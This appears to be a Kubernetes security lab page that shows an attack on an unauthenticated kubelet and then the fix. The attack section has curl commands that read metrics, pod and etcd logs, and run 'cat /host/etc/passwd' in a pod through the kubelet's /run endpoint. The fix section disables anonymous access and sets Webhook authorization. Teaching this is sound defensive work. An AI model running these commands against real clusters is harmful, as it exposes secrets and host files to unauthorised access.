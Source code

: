 # Kubelet

## Attack

Before fixing the kubelet we will try to get sensitive data via the kubelet.

### Preparations

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# store the external IP of the worker node
export IP=$(gcloud compute instances list --filter="name=kubernetes-security" --format json | jq .[].networkInterfaces[].accessConfigs[].natIP | tr -d \")
```

### Getting sensitive data from the kubelet

```bash
# getting metrics from the kubelet
curl -k https://$IP:10250/metrics

# getting log infos from the kubelet
curl -k https://$IP:10250/logs/pods/ | grep etcd

# getting logs from etcd eg `curl -k https://$IP:10250/logs/pods/kube-system_etcd-kubernetes-security_87a0e13f2b523002a1f9bd2decbc296d/etcd/0.log`
curl -k https://$IP:10250/logs/pods/<ETCD_POD>/etcd/0.log

# getting infos from the host
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

## Avoiding the Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### vi the kubelet config

``` bash
vi /var/lib/kubelet/config.yaml
```

### Fix Authentication

```yaml
...
authentication:
  anonymous:
    enabled: true # <= change to false
...    
```

### Fix Authorization

```yaml
...
authorization:
  mode: AlwaysAllow # <= change to Webhook
...  
```

### Restart the kubelet and check the status

```bash
systemctl restart kubelet

systemctl status kubelet
```

### Verify kubelet is now safe again

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# try to attack the kublet atain - now you will get an `Unauthorized` response
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

